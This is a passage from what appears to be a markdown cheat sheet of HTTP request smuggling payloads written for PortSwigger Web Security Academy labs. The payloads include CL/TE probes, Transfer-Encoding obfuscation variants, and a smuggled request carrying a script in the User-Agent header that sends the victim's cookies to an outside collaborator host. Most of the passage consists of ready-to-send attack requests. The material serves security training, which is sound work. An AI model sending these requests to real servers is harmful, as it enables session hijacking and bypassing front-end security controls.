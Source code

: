    ```HTTP
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    SMUGGLED
    ```
   
    b. Case for `TE` Header. Please refer to [this point](#h2-te-req-smugg) for the exploit payload.
    ```HTTP
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Transfer-Encoding: chunked

    0

    SMUGGLED
    ``` 
   
7. When Obfuscating the `TE Dual chunk`, You can send the request using a duplicated `Transfer-Encoding` header or using a single one with various payloads. Please refer to [this poin](#te-dual-chunk)


## Exploit Payload
### HTTP/1.1 Techniques
1. <a name="te-dual-chunk">TE Dual Chunk</a>. ([original lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)
   ```HTTP
   POST / HTTP/1.1
   Host: TARGET.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked
   Transfer-encoding: identity

   e6
   GET /post?postId=4 HTTP/1.1
   User-Agent: a"/><script>document.location='http://OASTIFY.COM/?c='+document.cookie;</script>
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0\r\n
   \r\n
   ```
   - Various TE Header Payload for obfuscating purposes
     > maybe not placing the second `TE Header` right below the first `TE Header` is worth trying.
     ```HTTP
     Transfer-Encoding: xchunked
     